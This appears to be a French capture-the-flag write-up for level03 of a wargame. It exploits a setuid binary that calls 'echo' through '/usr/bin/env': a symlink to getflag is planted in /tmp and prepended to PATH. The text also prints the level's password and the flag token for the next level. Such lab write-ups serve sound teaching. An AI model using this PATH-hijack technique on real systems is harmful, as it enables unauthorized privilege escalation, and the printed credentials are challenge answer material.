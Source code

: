 # Level03

> login:password -> *`level03:kooda2puivaav1idi4f57q8iq`*
```
:~$ su level03
Password:kooda2puivaav1idi4f57q8iq
```
---

```
:~$ pwd
/home/user/level03
```

```
:~$ ls -la
...
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
...

:~$ file level03
setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

Le Home posséde un exécutable nommé level03.

```
:~$ ./level03
Exploit me
```

On doit essayer de le décortiquer pour l'exploiter.

```
:~$ strings level03
...
/usr/bin/env echo Exploit me
...
```

Le programme utilise `echo` via `/usr/bin/env`, ce qui va nous être utile pour appeler la commande `getflag`.
On va créer un lien symbolique de `echo` vers `getflag`.

```
:~$ ln -s /bin/getflag /tmp/echo
```

on va ensuite pouvoir ajouter `tmp` dés le début de PATH afin que le lien soit appelé

```
:~$ export PATH=/tmp:$PATH
```

On peux alors relancer l'exécutable

```
:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

Le flag nous permet de se connecter au level04
`level04:qi0maab88jeaj46qoumi7maus`